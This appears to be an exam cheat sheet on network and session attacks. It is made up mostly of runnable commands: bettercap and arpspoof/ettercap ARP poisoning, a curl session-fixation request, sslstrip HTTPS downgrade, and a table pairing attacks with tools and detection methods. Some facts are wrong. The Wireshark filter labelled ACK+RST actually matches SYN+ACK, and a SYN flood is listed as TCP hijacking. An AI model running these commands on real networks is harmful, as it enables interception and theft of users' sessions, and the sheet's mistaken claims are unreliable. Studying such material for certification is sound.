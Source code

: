 ```
> net.probe on

> net.sniff on

> set arp.spoof.targets 192.168.1.100

> arp.spoof on
```

### Session Fixation (Web Security)

Force Session ID

```
curl -v -c cookies.txt http://test.com/login.php?SESSID=HACKED
```

###  Exam-Critical Reference Table

| Attack Type   | Tool       | Command Example                      | Detection Method    |
| ------------- | ---------- | ------------------------------------ | ------------------- |
| ARP Spoofing  | arpspoof   | `arpspoof -i eth0 -t victim gateway` | ARP watch           |
| TCP Hijacking | hping3     | `hping3 -S -p 80 --flood`            | SEQ number analysis |
| Cookie Theft  | Burp Suite | Intercept "Set-Cookie" header        | HTTPS enforcement   |
| DNS Spoofing  | ettercap   | `ettercap -T -q -i eth0 -M dns`      | DNSSEC validation   |

### Practical Exam Checklist

1. Perform ARP cache poisoning between two hosts
2. Capture and reuse a session cookie
3. Detect ongoing session hijacking attempts
4. Demonstrate TCP sequence prediction
5. Document all findings in report
### Pro Tips:

- **Always check**: `arp -a` for duplicate MAC addresses
- **Critical ports**: 21 (FTP), 23 (Telnet), 80 (HTTP) are prime targets
- **HTTPS bypass**: Use `sslstrip` for downgrade attacks
- **Exam trick**: Look for `tcp[13] & 18 = 18` filters in Wireshark (ACK+RST)

# Run these until automatic:

```
arpspoof -i eth0 -t victim_ip router_ip
```

```
ettercap -T -q -i eth0 -M arp /victim_ip// /router_ip//
```
